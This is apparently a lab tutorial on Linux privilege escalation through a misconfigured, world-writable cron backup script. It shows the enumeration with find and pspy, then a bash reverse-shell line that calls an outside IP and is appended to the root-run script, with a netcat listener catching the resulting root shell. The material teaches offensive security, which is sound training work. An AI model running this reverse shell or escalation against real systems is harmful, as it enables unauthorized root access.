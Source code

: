 Cron jobs can also be set run one time (such as on boot). They are typically used for administrative tasks such as running backups, cleaning up directories, etc. The `<crontab>` command can create a cron file, which will be run by the cron daemon on the schedule specified. When created, the cron file will be created in `</var/spool/cron>` for the specific user that creates it. Each entry in the crontab file requires six items in the following order: minutes, hours, days, months, weeks, commands. For example, the entry `0 */12 * * * /home/admin/backup.sh` would run every 12 hours.

The root crontab is almost always only editable by the root user or a user with full sudo privileges; however, it can still be abused. You may find a world-writable script that runs as root and, even if you cannot read the crontab to know the exact schedule, you may be able to ascertain how often it runs (i.e., a backup script that creates a `.tar.gz` file every 12 hours). In this case, you can append a command onto the end of the script (such as a reverse shell one-liner), and it will execute the next time the cron job runs.

Certain applications create cron files in the `</etc/cron.d>` directory and may be misconfigured to allow a non-root user to edit them.

First, let's look around the system for any writeable files or directories. The file `<backup.sh>` in the `</dmz-backups>` directory is interesting and seems like it could be running on a cron job.

> find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

     /etc/cron.daily/backup
     /dmz-backups/backup.sh
     /proc
     /sys/fs/cgroup/memory/init.scope/cgroup.event_control

     <SNIP>
     /home/backupsvc/backup.sh

     <SNIP>

A quick look in the `</dmz/backups>` directory shows what appears to be files created every three minutes. This seems to be a major misconfiguration. Perhaps the sysadmin meant to specify every three hours like `0 */3 * * *` but instead wrote `*/3 * * * *`, which tells the cron job to run every three minutes. The second issue is that the `<backup.sh>` shell script is world writeable and runs as root.

> ls -la /dmz-backups/

     total 36
     drwxrwxrwx  2 root root 4096 Aug 31 02:39 .
     drwxr-xr-x 24 root root 4096 Aug 31 02:24 ..
     -rwxrwxrwx  1 root root  230 Aug 31 02:39 backup.sh
     -rw-r--r--  1 root root 3336 Aug 31 02:24 www-backup-2020831-02:24:01.tgz
     -rw-r--r--  1 root root 3336 Aug 31 02:27 www-backup-2020831-02:27:01.tgz
     -rw-r--r--  1 root root 3336 Aug 31 02:30 www-backup-2020831-02:30:01.tgz
     -rw-r--r--  1 root root 3336 Aug 31 02:33 www-backup-2020831-02:33:01.tgz
     -rw-r--r--  1 root root 3336 Aug 31 02:36 www-backup-2020831-02:36:01.tgz
     -rw-r--r--  1 root root 3336 Aug 31 02:39 www-backup-2020831-02:39:01.tgz

We can confirm that a cron job is running using` <pspy> (*https://github.com/DominicBreuker/pspy*), `a command-line tool used to view running processes without the need for root privileges. We can use it to see commands run by other users, cron jobs, etc. It works by scanning `<procfs> (*https://en.wikipedia.org/wiki/Procfs*).

Let's run `<pspy>` and have a look. The `<-pf>` flag tells the tool to print commands and file system events and `<-i 1000>` tells it to scan `<profcs>(*https://man7.org/linux/man-pages/man5/procfs.5.html*)` every 1000ms (or every second).


> ./pspy64 -pf -i 1000

     pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


          ██▓███    ██████  ██▓███ ▓██   ██▓
     ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
     ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
     ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
     ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
     ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
     ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
     ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                    ░           ░ ░     
                                   ░ ░     

     Config: Printing events (colored=true): processes=true | file-system-events=true ||| Scannning for processes every 1s and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
     Draining file system events due to startup...
     done
     2020/09/04 20:45:03 CMD: UID=0    PID=999    | /usr/bin/VGAuthService 
     2020/09/04 20:45:03 CMD: UID=111  PID=990    | /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation 
     2020/09/04 20:45:03 CMD: UID=0    PID=99     | 
     2020/09/04 20:45:03 CMD: UID=0    PID=988    | /usr/lib/snapd/snapd 

     <SNIP>

     2020/09/04 20:45:03 CMD: UID=0    PID=1017   | /usr/sbin/cron -f 
     2020/09/04 20:45:03 CMD: UID=0    PID=1010   | /usr/sbin/atd -f 
     2020/09/04 20:45:03 CMD: UID=0    PID=1003   | /usr/lib/accountsservice/accounts-daemon 
     2020/09/04 20:45:03 CMD: UID=0    PID=1001   | /lib/systemd/systemd-logind 
     2020/09/04 20:45:03 CMD: UID=0    PID=10     | 
     2020/09/04 20:45:03 CMD: UID=0    PID=1      | /sbin/init 
     2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
     2020/09/04 20:46:01 CMD: UID=0    PID=2201   | /bin/bash /dmz-backups/backup.sh 
     2020/09/04 20:46:01 CMD: UID=0    PID=2200   | /bin/sh -c /dmz-backups/backup.sh 
     2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
     2020/09/04 20:46:01 CMD: UID=0    PID=2199   | /usr/sbin/CRON -f 
     2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
     2020/09/04 20:46:01 CMD: UID=0    PID=2203   | 
     2020/09/04 20:46:01 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
     2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
     2020/09/04 20:46:01 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
     2020/09/04 20:46:01 CMD: UID=0    PID=2204   | tar --absolute-names --create --gzip --file=/dmz-backups/www-backup-202094-20:46:01.tgz /var/www/html 
     2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
     2020/09/04 20:46:01 CMD: UID=0    PID=2205   | gzip 
     2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
     2020/09/04 20:46:03 CMD: UID=0    PID=2206   | /bin/bash /dmz-backups/backup.sh 
     2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
     2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive


From the above output, we can see that a cron job runs the `<backup.sh>` script located in the `</dmz-backups>` directory and creating a tarball file of the contents of the `</var/www/html>` directory.

We can look at the shell script and append a command to it to attempt to obtain a reverse shell as root. If editing a script, make sure to `<ALWAYS>` take a copy of the script and/or create a backup of it. We should also attempt to append our commands to the end of the script to still run properly before executing our reverse shell command.

> cat /dmz-backups/backup.sh 

     #!/bin/bash
     SRCDIR="/var/www/html"
     DESTDIR="/dmz-backups/"
     FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
     tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR

 We can see that the script is just taking in a source and destination directory as variables. It then specifies a file name with the current date and time of backup and creates a tarball of the source directory, the web root directory. Let's modify the script to add a` <Bash one-liner reverse shell.> (*https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet*)

 # Code: bash

     #!/bin/bash
     SRCDIR="/var/www/html"
     DESTDIR="/dmz-backups/"
     FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
     tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
     
     bash -i >& /dev/tcp/10.10.14.3/443 0>&1

We modify the script, stand up a local`<netcat>`listener, and wait. Sure enough, within three minutes, we have a root shell!

> nc -lnvp 443

     listening on [any] 443 ...
     connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38882
     bash: cannot set terminal process group (9143): Inappropriate ioctl for device
     bash: no job control in this shell

     root@NIX02:~# id
     id
     uid=0(root) gid=0(root) groups=0(root)

     root@NIX02:~# hostname
     hostname
     NIX02

